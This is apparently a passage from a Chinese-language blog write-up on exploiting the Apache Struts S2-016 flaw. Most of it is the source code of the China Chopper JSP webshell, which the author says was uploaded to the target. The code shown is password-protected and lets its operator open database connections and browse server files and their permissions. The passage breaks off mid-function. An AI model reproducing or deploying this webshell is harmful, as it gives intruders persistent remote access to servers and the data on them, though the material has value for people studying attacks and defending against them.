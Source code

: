 ![](/assets/images/2016-11-03-struts_s2_016/20161103233314.png)  
这里提交的大马是中国菜刀jsp木马，具体代码如下：  

```jsp
<%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>
<%!String Pwd = "chopper";
 
    String EC(String s, String c) throws Exception {
        return s;
    }//new String(s.getBytes("ISO-8859-1"),c);}
 
    Connection GC(String s) throws Exception {
        String[] x = s.trim().split("\r\n");
        Class.forName(x[0].trim()).newInstance();
        Connection c = DriverManager.getConnection(x[1].trim());
        if (x.length > 2) {
            c.setCatalog(x[2].trim());
        }
        return c;
    }
 
    void AA(StringBuffer sb) throws Exception {
        File r[] = File.listRoots();
        for (int i = 0; i < r.length; i++) {
            sb.append(r[i].toString().substring(0, 2));
        }
    }
 
    void BB(String s, StringBuffer sb) throws Exception {
        File oF = new File(s), l[] = oF.listFiles();
        String sT, sQ, sF = "";
        java.util.Date dt;
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
        for (int i = 0; i < l.length; i++) {
            dt = new java.util.Date(l[i].lastModified());
            sT = fm.format(dt);
            sQ = l[i].canRead() ? "R" : "";
            sQ += l[i].canWrite() ? " W" : "";
            if (l[i].isDirectory()) {
                sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()
                        + "\t" + sQ + "\n");
            } else {
                sF += l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"
                        + sQ + "\n";
            }
        }
        sb.append(sF);
    }
 
    void EE(String s) throws Exception {
        File f = new File(s);
```